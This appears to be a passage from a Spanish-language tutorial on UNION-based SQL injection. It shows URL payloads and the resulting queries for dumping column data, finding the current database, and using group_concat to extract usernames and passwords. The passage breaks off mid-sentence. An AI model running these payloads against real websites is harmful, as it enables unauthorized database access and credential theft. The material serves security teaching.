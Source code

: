 #### Volcado de las Columnas

Ya que sabemos el nombre de las columnas que hay en la tabla que hemos elegido, podemos volcar los datos para poder visualizarlos de la siguiente manera:

{% code fullWidth="false" %}
```url
https://myshop.com/filter?category=Pets' union select NULL,Column_Name from Table_Name-- -
```
{% endcode %}

<pre class="language-sql" data-full-width="false"><code class="lang-sql"><strong>SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL,Column_Name FROM Table_Name-- -'
</strong></code></pre>

{% hint style="warning" %}
Debes de tener en cuenta que la tabla debe de estar en la BD que se esta utilizando, en el caso de que la tabla se encuentre en otra BD que hayamos enumero previamente, debemos de indicarle la BD de donde proviene la tabla:

<pre><code><strong>https://myshop.com/filter?category=Pets' union select NULL,Column_Name from BD_Name.Table_Name-- -
</strong></code></pre>

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL,Column_Name FROM BD_Name.Table_Name-- -'
```
{% endhint %}

{% hint style="info" %}
Para saber en que BD te encuentras, puedes hacer esta consulta:

```
https://myshop.com/filter?category=Pets' union select NULL,database()-- -
```

```sql
SELECT * FROM products WHERE category = 'Pets' UNION SELECT NULL,database()-- -'
```
{% endhint %}

Si quisiéramos volcar varios datos de varias columnas en una consulta, lo podemos hacer con `group_concat(Column_Name,Column2_Name)` ej:

```sql
SELECT * FROM users where username = 'usuario123' UNION SELECT NULL,group_concat(username,password) FROM users-- -'
```

{% hint style="info" %}
También puedes concatenar los datos de las columnas y filas con `group_concat()`:

```sql
SELECT * FROM users where username = 'usuario123' UNION SELECT NULL,group_concat(username,':',password) FROM users-- -'
```

De esta manera los datos se verían de la siguiente manera:
